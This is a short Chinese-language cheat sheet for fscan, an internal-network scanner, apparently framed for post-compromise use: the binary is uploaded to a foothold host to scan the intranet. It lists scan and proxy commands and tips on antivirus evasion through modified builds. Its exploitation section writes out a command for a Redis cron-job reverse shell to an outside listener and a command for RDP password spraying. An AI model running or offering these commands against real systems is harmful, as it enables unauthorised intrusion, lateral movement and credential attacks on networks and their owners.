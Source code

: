 fscan：一款内网综合扫描工具，方便一键自动化、全方位漏扫扫描。支持主机存活探测、端口扫描、常见服务的爆破、ms17010、redis批量写公钥、计划任务反弹shell、读取win网卡信息、web指纹识别、web漏洞扫描、netbios探测、域控识别等功能。

## **安装**
下载：<https://github.com/shadow1ng/fscan/releases>
linux：fscan32  fscan64
windows：fscan32.exe  fscan64.exe
一般上传到入口主机，进行扫描内网。
<https://mp.weixin.qq.com/s?__biz=MzU2NzYxODk3MQ==&mid=2247484166&idx=1&sn=c1eef8fc2db078b5154101eed4cd6c22&chksm=fc9b3ff2cbecb6e458cefa2257bae9cd57b3dbb505bb4b4315fd6d030981079f9ea7eb161592&token=657800978&lang=zh_CN#rd>

^
## **使用**
<https://www.cnblogs.com/nanhe7/p/15966742.html>
探测局域网内网卡ip存活和开放端口。
```
fscan64.exe -h 192.168.0.0/24
```
结果直接显示或默认保存在同目录下result.txt文件。
^
```
fscan.exe -h 192.168.1.1/24  (默认使用全部模块)
fscan.exe -h 192.168.1.1/24 -nopoc 不使用web漏洞扫描
fscan.exe -h 192.168.1.1/24 -np 无ping扫描，不主机发现，直接扫
fscan.exe -h 192.168.1.1/16  (B段扫描)

挂代理
--proxy=socks5://127.0.0.1:10809
```

^
## **免杀**
对fscan做免杀，可以找公众号上二开的。

^
## **利用**
redis未授权定时任务反弹shell
```
fscan_amd64.exe -h *.*.*.* -p 6379 -rs *.*.*.*:1234
```

rdp远程桌面指定密码碰撞
```
fscan_amd64.exe -h *.*.*.*/16 -pa 3389 -pwd ***** -np
```

